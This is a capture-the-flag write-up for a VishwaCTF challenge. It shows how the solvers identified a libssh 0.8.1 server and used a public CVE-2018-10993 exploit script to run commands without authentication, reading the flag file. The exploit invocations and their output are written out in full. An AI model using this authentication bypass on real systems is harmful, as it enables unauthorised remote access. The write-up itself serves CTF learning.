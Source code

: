 Flag: `VishwaCTF{elrow-club-pune}`

We are given a netcat connection and using the command, we get a weird SSH version and it disconnects automatically after a few seconds. My teammate @Shen managed to find out what this meant.
```
└─$ nc 13.234.11.113 32657
SSH-2.0-libssh_0.8.1

Bye Bye                                                                                                                                                      
```

He mentioned that this was related to a CVE, specifically CVE-2018-10993. Using an [exploit](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d) on GitHub, we can perform commands remotely via the exploit.
```
└─$ python cve-2018-10993.py 13.234.11.113 -p 32657 -c 'ls'

    :: CVE-2018-10993 libSSH authentication bypass exploit.
    Tries to attack vulnerable libSSH libraries by accessing SSH server without prior authentication.
    Mariusz B. / mgeeky '18, <mb@binary-offensive.com>
    v0.1
    
bin
boot
dev
etc
home
lib
lib64
location.txt
media
mnt
opt
proc
root
run
sbin
srv
ssh_server_fork.patch
sys
tmp
usr
var
```

A suspicious text file can be found, the flag was in it.

```
└─$ python cve-2018-10993.py 13.234.11.113 -p 32657 -c 'cat location.txt'

    :: CVE-2018-10993 libSSH authentication bypass exploit.
    Tries to attack vulnerable libSSH libraries by accessing SSH server without prior authentication.
    Mariusz B. / mgeeky '18, <mb@binary-offensive.com>
    v0.1
    
elrow-club-pune
```
